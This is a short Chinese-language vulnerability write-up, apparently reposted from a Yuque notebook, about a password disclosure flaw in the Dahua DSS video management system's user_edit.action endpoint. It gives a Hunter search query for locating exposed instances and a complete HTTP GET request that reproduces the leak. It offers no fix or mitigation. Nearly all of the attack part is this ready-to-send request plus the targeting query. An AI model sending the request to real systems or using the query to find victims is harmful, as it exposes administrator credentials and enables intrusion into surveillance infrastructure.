 # 大华 DSS 视频管理系统user_edit存在密码泄漏漏洞

# 一、漏洞简介
DSS是大华的大型监控管理应用平台，支持几乎所有涉及监挂控等方面的操作，支持多级跨平台联网等操作。可将视频监控、卡口拍照、区间测速、电子地图、违章查询系统等诸多主流应用整合在一起，实现更加智能、便捷的分级查询服务。大华 DSS 视频管理系统user_edit存在密码泄漏漏洞。

# 二、影响版本
+ 大华 DSS 视频管理系统

# 三、资产测绘
+ hunter：`app.name=="Dahua 大华 DSS 视频管理系统"`

![1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc.png](./img/dRGl6TsAKBTx2w2n/1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc-550589.png)

+ 登录页面

![1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590.png](./img/dRGl6TsAKBTx2w2n/1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590-260486.png)

# 四、漏洞复现
```plain
GET /admin/cascade_/user_edit.action?id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1B1D0EBCE3AC082FDBA00062678EAAC9; JSESSIONID=48C3365B18E192DAAB020C90A2BF0DEF
Upgrade-Insecure-Requests: 1
```

![1707058843442-6c8106c8-b015-4036-9378-3693a95273aa.png](./img/dRGl6TsAKBTx2w2n/1707058843442-6c8106c8-b015-4036-9378-3693a95273aa-811566.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gsq90pf8xgsyfgix>